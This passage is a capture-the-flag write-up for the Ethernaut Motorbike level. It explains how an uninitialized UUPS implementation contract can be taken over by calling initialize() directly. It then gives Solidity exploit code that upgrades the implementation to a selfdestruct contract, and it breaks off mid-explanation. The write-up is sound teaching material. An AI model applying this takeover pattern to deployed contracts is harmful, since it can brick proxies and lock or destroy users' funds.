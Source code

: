 `initialize()` is a special function used in UUPS-based contracts. And, along with `initializer` modifier, this acts as a constructor which can only be called once. (This is checked in the `initializer` modifier).

Something which should be observed here is that in this implementation, the `initialize()` function is supposed to be called by the proxy contract which it is doing. You can see in its constructor. But remember that it is doing so using a `delegatecall()`. And when a caller contract makes a delegate call to another contract, the caller contract's storage slots are updated using the code of the logic contract.

This means that the `delegatecall()` is being made in the context of the proxy contract and not the implementation.

So it is absolutely true that the proxy contract can only call the `initialize()` once and it'll update its storage values but what if we are to find the deployed address of the implementation contract and call the `initialize()` manually? In the context of the implementation contract, this has not yet been called. So if we are to call the function, our user (`msg.sender`) will become the upgrader.

Once we become the `upgrader` we can just call the `upgradeToAndCall()` with our own contract's address in which we can create a `selfdestruct()` function. This should be enough to solve the level.

---
## The Exploit

Lets first create our [attacker contract](https://github.com/az0mb13/ethernaut-foundry/blob/master/src/level25.sol) which will house the `selfdestruct()` function:

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Destructive {
    function killed() external {
        selfdestruct(address(0));
    }    
}
```

Just a simple contract with `selfdestruct()` being called in the `killed()` external function.

This is how our exploit script looks:

```sol
contract PWN{
    IEngine engineAddress = IEngine(address(0x7B12f9aA28CfD4542e981BE24D37E3d3679D909d));
    function run() external{
        engineAddress.initialize();
        bytes memory encodedData = abi.encodeWithSignature("killed()");
        engineAddress.upgradeToAndCall(0xde784f7d09Bf418d4E1310671497104720a63906, encodedData);
    }
}

```

- `Engine engineAddress` - This contains the address of the Engine, calculated using `vm.load(contract_address, slot_no)`. Since this will return a `bytes32` value and the address is 20 bytes, we need to convert it to store it into an address-type variable. That's why the extra `address(uint160(uint256()))` are being used. This can also be obtained from the console using
```js
await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
```  
- `engineAddress.initialize()` - We are calling the `initialize()` function to become the upgrader.
- `bytes memory encodedData` - This is the data that will be sent inside the `upgradeToAndCall()` method.